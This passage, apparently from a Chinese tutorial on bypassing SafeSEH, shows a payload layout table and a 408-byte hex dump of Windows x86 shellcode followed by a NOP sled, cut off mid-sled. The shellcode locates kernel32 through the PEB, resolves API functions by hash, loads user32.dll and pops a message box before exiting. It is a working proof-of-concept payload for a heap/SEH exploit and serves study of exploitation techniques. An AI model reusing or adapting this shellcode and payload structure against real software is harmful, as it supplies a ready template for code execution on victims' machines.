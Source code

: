 | shellcode | 填充指令 (\\x90) | 堆中 payload 的起始地址 |
| --- | --- | --- |
|     |

payload：

```bash
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\SafeSEH\Debug\111.txt
// Address : 0 (0x0)
// Size    : 408 (0x198)
//------------------------------------------------------------
unsigned char hexData[408] = {
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
```